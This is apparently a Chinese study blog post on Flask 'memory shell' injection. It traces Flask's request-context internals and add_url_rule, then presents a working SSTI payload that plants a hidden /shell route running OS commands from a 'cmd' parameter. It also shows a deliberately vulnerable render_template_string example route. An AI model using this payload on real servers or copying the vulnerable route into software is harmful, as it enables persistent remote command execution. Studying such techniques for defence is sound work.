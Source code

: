 

# 前言

之前一直想学习的东西但是一直咕，终于选了个晚上在配置vscode调试PHP底层C代码的过程中卡住的时候去学了这个flask的内存马，也是很有意思。



# 前置知识

## 请求上下文

简单的flask的ssti肯定需要知道，这个就不提了。

首先就是跟着参考链接中的Flask上下文管理机制流程进行了一波学习，打断点跟进一波。



flask在接受到请求的时候会调用app的`__call__`方法：

```python
    def __call__(self, environ, start_response):
        """The WSGI server calls the Flask application object as the
        WSGI application. This calls :meth:`wsgi_app` which can be
        wrapped to applying middleware."""
        return self.wsgi_app(environ, start_response)
```

继续跟进：

```python
        ctx = self.request_context(environ)
        error = None
        try:
            try:
                ctx.push()
                response = self.full_dispatch_request()
```

这时候的self是`Flask`对线，调用`request_context()`方法得到了一个`RequestContext`，一个请求上下文`ctx`（这时候我联想一波Servlet其实也有些了解了）。它里面包含了request和session：

![image-20211028001649256]([Python]Flask内存马学习.assets/image-20211028001649256.png)

之后会调用`ctf.push()`：

```python
        top = _request_ctx_stack.top
        if top is not None and top.preserved:
            top.pop(top._preserved_exc)

        # Before we push the request context we have to ensure that there
        # is an application context.
        app_ctx = _app_ctx_stack.top
        if app_ctx is None or app_ctx.app != self.app:
            app_ctx = self.app.app_context()
            app_ctx.push()
            self._implicit_app_ctx_stack.append(app_ctx)
        else:
            self._implicit_app_ctx_stack.append(None)

        if hasattr(sys, "exc_clear"):
            sys.exc_clear()

        _request_ctx_stack.push(self)
```

考虑到`_request_ctx_stack = LocalStack()`是一个`LocalStack`对象，获取它的top就是这个：

```python
    @property
    def top(self):
        """The topmost item on the stack.  If the stack is empty,
        `None` is returned.
        """
        try:
            return self._local.stack[-1]
        except (AttributeError, IndexError):
            return None
```

它的`_local`是一个`Local`对象，具有这两个属性：

```python
    def __init__(self):
        object.__setattr__(self, "__storage__", {})
        object.__setattr__(self, "__ident_func__", get_ident)
```

且访问不存在的属性的时候就是这样：

```python
    def __getattr__(self, name):
        try:
            return self.__storage__[self.__ident_func__()][name]
        except KeyError:
            raise AttributeError(name)
```

但是我也没有去了解的这么细，因为没必要。很明显的就是这时候的stack为None，所以栈顶没有元素，所以`top`也返回None，最后执行了这个`_request_ctx_stack.push(self)`：

```python
    def push(self, obj):
        """Pushes a new item to the stack"""
        rv = getattr(self._local, "stack", None)
        if rv is None:
            self._local.stack = rv = []
        rv.append(obj)
        return rv
```

同理，一开始rv还是None，然后这行代码`self._local.stack = rv = []`，相当于把rv和`self._local.stack`都指向同一个列表：

```python
a = b = []
a.append(123)
print(a)#[123]
print(b)#[123]
```

然后`rv.append(obj)`，这个obj就是`RequestContext`。相当于把`self._local.stack`栈顶压入这么个请求上下文对象。



因此，获取当前的请求上下文，也就是获取`_request_ctx_stack.top`，`_request_ctx_stack`的栈顶元素，而有了请求上下文就可以得到`request`了。





## add_url_rule

每次注册路由的时候都会调用`Route`函数：

```python
@app.route('/',methods=['GET', 'POST'])
def test():
    feng=request.args.get('feng')
    template = '''
            <h3>%s</h3>
    ''' %(feng)

    return render_template_string(template)
```

跟进一下：

```python
        def decorator(f):
            endpoint = options.pop("endpoint", None)
            self.add_url_rule(rule, endpoint, f, **options)
            return f
```

其实还是调用了`add_url_rule()`函数：

```python
    @setupmethod
    def add_url_rule(
        self,
        rule,
        endpoint=None,
        view_func=None,
        provide_automatic_options=None,
        **options
    ):
```

有这么几个参数需要注意，第一个rule就是注册的路由，比如`"/test"`。第二个`endpoint`注释中是这样说的：

> the endpoint for the registered URL rule.  Flask
>                  itself assumes the name of the view function as
>                  endpoint

说白了，endpoint就是绑定的函数名。

第三个就是`view_func`，就是对应这个路由的函数，每次请求这个路由都交由这个函数来处理。

至于请求方式，默认是GET，可以不写，因此，想要动态添加路由，最重要的就是第一个和第三个参数了。

路由可以随便写，至于函数这里，可以拿lambda表达式来写。



# POC分析

知道了上面的知识，再来看flask内存马就很容易了：

```python
url_for.__globals__['__builtins__']['eval'](
	"app.add_url_rule(
		'/shell', 
		'shell', 
		lambda :__import__('os').popen(_request_ctx_stack.top.request.args.get('cmd')).read()
		)
	",
	{
		'_request_ctx_stack':url_for.__globals__['_request_ctx_stack'],
		'app':url_for.__globals__['current_app']
	}
)
```

`eval`有两个参数![image-20211028003523239]([Python]Flask内存马学习.assets/image-20211028003523239.png)

第二个就是变量的全局命名空间，这样让`app`和`_request_ctx_stack`都可以被找到。

至于里面执行的命令，就是动态创建一条路由，路由是`/shell`，函数名也是`shell`，函数就是`__import__('os').popen(_request_ctx_stack.top.request.args.get('cmd')).read()`

调用os，执行命令。至于命令的来源，则是通过`_request_ctx_stack.top`得到请求上下文，然后获得请求上下文的`request`，再得到请求的get参数中的`cmd`然后执行，很容易理解。学费了学费了！

![image-20211028003806726]([Python]Flask内存马学习.assets/image-20211028003806726.png)

# 参考链接

https://www.mi1k7ea.com/2021/04/07/%E6%B5%85%E6%9E%90Python-Flask%E5%86%85%E5%AD%98%E9%A9%AC/#0x01-Python-Flask%E5%86%85%E5%AD%98%E9%A9%AC

https://github.com/iceyhexman/flask_memory_shell

https://www.cnblogs.com/bigox/p/11652859.html

https://blog.csdn.net/solitudi/article/details/115331388

https://www.runoob.com/python/python-functions.html